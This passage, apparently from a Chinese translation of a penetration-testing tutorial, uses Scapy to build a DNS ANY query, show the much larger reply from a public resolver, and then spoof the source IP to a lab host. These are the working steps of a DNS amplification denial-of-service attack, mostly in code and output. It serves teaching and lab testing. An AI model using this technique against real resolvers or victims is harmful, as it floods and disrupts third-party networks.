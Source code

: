 
一旦建立了请求，它就可以被传递给发送和接收函数，以便我们可以分析响应。 我们不会将它赋给一个变量，而是直接调用该函数，以便可以以相同的格式查看响应：

```
>>> sr1(request) 
Begin emission: 
....................Finished to send 1 packets. 
.............................* 
Received 50 packets, got 1 answers, remaining 0 packets 

<IP  version=4L ihl=5L tos=0x0 len=378 id=29706 flags= frag=0L ttl=128 proto=udp chksum=0x4750 src=208.67.220.220 dst=172.16.36.232 options=[] |<UDP  sport=domain dport=domain len=358 chksum=0xf360 |<DNS  id=0 qr=1L opcode=QUERY aa=0L tc=0L rd=1L ra=1L z=0L rcode=ok qdcount=1 ancount=17 nscount=0 arcount=0 qd=<DNSQR  qname='google.com.' qtype=ALL qclass=IN |> an=<DNSRR  rrname='google.com.' type=A rclass=IN ttl=188 rdata='74.125.228.103' |<DNSRR  rrname='google.com.' type=A rclass=IN ttl=188 rdata='74.125.228.102' |<DNSRR  rrname='google.com.' type=A rclass=IN ttl=188 rdata='74.125.228.98' |<DNSRR  rrname='google.com.' type=A rclass=IN ttl=188 rdata='74.125.228.96' |<DNSRR  rrname='google. com.' type=A rclass=IN ttl=188 rdata='74.125.228.99' |<DNSRR  rrname='google.com.' type=A rclass=IN ttl=188 rdata='74.125.228.110' |<DNSRR  rrname='google.com.' type=A rclass=IN ttl=188 rdata='74.125.228.100' |<DNSRR  rrname='google.com.' type=A rclass=IN ttl=188 rdata='74.125.228.97' |<DNSRR  rrname='google.com.' type=A rclass=IN ttl=188 rdata='74.125.228.104' |<DNSRR  rrname='google. com.' type=A rclass=IN ttl=188 rdata='74.125.228.105' |<DNSRR  rrname='google.com.' type=A rclass=IN ttl=188 rdata='74.125.228.101' |<DNSRR  rrname='google.com.' type=AAAA rclass=IN ttl=234 rdata='2607 :f8b0:4004:803::1002' |<DNSRR  rrname='google.com.' type=NS rclass=IN ttl=171376 rdata='ns2.google.com.' |<DNSRR  rrname='google.com.' type=NS rclass=IN ttl=171376 rdata='ns1.google.com.' |<DNSRR  rrname='google. com.' type=NS rclass=IN ttl=171376 rdata='ns3.google.com.' |<DNSRR  rrname='google.com.' type=NS rclass=IN ttl=171376 rdata='ns4.google.com.' |<DNSRR  rrname='google.com.' type=SOA rclass=IN ttl=595 rdata='\xc1\x06\ tdns-admin\xc0\x0c\x00\x17\xd0`\x00\x00\x1c \x00\x00\x07\x08\x00\x12u\ x00\x00\x00\x01,' |>>>>>>>>>>>>>>>>> ns=None ar=None |>>> 
```

该响应确认了我们已成功构建所需的请求，并且我们已请求了一个相当大的有效内容，其中包括`google.com`域的11个A记录，1个AAAA记录，4个NS记录和1个SOA记录。 此练习清楚地表明，请求的响应明显大于请求本身。 为了使这个放大攻击有效，它需要通过伪造源 IP 地址重定向到我们的目标：

```
>>> i.src = "172.16.36.135" 
>>> i.display()
###[ IP ]###
  version= 4
  ihl= None
  tos= 0x0
  len= None
  id= 1
  flags=
  frag= 0
  ttl= 64
  proto= ip
  chksum= None
  src= 172.16.36.135
  dst= 208.67.220.220
  \options\ 
>>> request = (i/u/d) 
>>> request 
<IP  frag=0 proto=udp src=172.16.36.135 dst=208.67.220.220 |<UDP  sport=domain |<DNS  rd=1 qdcount=1 qd=<DNSQR  qname='google.com' qtype=ALL |> |>>>
```
